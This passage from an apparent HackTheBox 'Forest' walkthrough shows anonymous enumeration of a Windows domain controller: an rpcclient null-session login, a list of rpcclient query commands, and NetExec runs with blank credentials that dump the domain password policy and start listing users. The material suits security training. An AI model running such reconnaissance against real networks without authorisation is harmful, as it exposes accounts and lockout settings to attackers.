 `rpcclient -U "" -N 10.10.10.161`

> *Allowing anonymous connections over RPC can be a significant security risk. It could allow unauthorized users to access sensitive functions or data on the server, depending on the permissions granted to anonymous connections.*

![image](https://gist.github.com/assets/58165365/1edbf351-31ab-48af-82fa-c4d712532398)

The users and groups identifed are preety similar to the output we found earlier:

Other useful commands you could explore:

```bash
enumdomusers
querydispinfo
enumdomgroups
enumdomains
samquerysecobj
getdompwinfo
enumprivs
```

### NetExec

I moved to my next favourite network service exploitation tool, [NetExec](https://www.netexec.wiki/smb-protocol/enumeration).

```bash
➜  nxc smb 10.10.10.161
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
➜  nxc smb 10.10.10.161 -u '' -p ''
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\: 
➜  nxc smb 10.10.10.161 -u '' -p '' --shares
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\: 
SMB         10.10.10.161    445    FOREST           [-] Error enumerating shares: STATUS_ACCESS_DENIED
➜  nxc smb 10.10.10.161 -u '' -p '' --pass-pol
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\: 
SMB         10.10.10.161    445    FOREST           [+] Dumping password info for domain: HTB
SMB         10.10.10.161    445    FOREST           Minimum password length: 7
SMB         10.10.10.161    445    FOREST           Password history length: 24
SMB         10.10.10.161    445    FOREST           Maximum password age: Not Set
SMB         10.10.10.161    445    FOREST           
SMB         10.10.10.161    445    FOREST           Password Complexity Flags: 000000
SMB         10.10.10.161    445    FOREST               Domain Refuse Password Change: 0
SMB         10.10.10.161    445    FOREST               Domain Password Store Cleartext: 0
SMB         10.10.10.161    445    FOREST               Domain Password Lockout Admins: 0
SMB         10.10.10.161    445    FOREST               Domain Password No Clear Change: 0
SMB         10.10.10.161    445    FOREST               Domain Password No Anon Change: 0
SMB         10.10.10.161    445    FOREST               Domain Password Complex: 0
SMB         10.10.10.161    445    FOREST           
SMB         10.10.10.161    445    FOREST           Minimum password age: 1 day 4 minutes 
SMB         10.10.10.161    445    FOREST           Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.161    445    FOREST           Locked Account Duration: 30 minutes 
SMB         10.10.10.161    445    FOREST           Account Lockout Threshold: None
SMB         10.10.10.161    445    FOREST           Forced Log off Time: Not Set
➜  nxc smb 10.10.10.161 -u '' -p '' --users
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
```
